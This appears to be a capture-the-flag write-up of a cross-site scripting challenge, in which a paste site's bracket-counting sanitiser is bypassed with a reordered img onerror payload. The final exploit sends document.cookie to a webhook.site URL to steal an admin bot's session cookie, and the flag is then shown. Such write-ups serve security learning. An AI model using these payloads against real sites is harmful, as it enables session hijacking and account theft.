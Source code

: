 Aaaaaand some sanitation. Looks like it doesn't want us to put any tags in at all.
The sanitation method is weird though. They use a counter to determine whether any
bracket has been laid down. If two have been laid down, everything in between those
brackets will be sanitized. Unlessss we switch up the order of the tags.

**Payload:** ` ><script>< `

**Output:**
```
<div id="paste">
    &gt;<script><</script>
</div>
```

I tried a few ways to get an **alert** to pop up, but no luck. I figured out that
the only thing that is possible is to make this exploit in **one tag**. But how?


The `<img>` tag has a `src` attribute, which allows us to maybe redirect the
user to a different website. I ended up getting this to return a JS alert:
` ><img src=x onerror=alert(1);>< `.

Sweet! This is definitely a sanity check lol. Now I needed to just steal the bot's
cookie (or my own for testing). This took me about a year to find, but this
website called **Webhook** gives us a url to live on and send request to. I did some
digging and research and found the final exploit. I will have my cookie be:
` XSS = but make it reflected `.

**Exploit:**
```
><img src=x onerror=this.src='https://webhook.site/b3ead4c5-b498-4d5f-9b82-f6fa49d9639f/?'+document.cookie; this.removeAttribute('onerror');><
```

**Webhook:**

<img src="make_it_reflected.PNG" alt="Testing Payload">

Niceeeeee. Now let's give this malicious cookie-stealing link to the admin bot.

**Webhook:**

<img src="bot.PNG" alt="Bot get's pwned">

I thought this challenge was pretty cool to be honest. I learned about XSS attacks
in school, but never had to develop a payload for one. Awesome challenge.

### Flag
`flag{54n1t1z4t10n_k1nd4_h4rd}`

### Resources
[Webhook](https://webhook.site/)

---
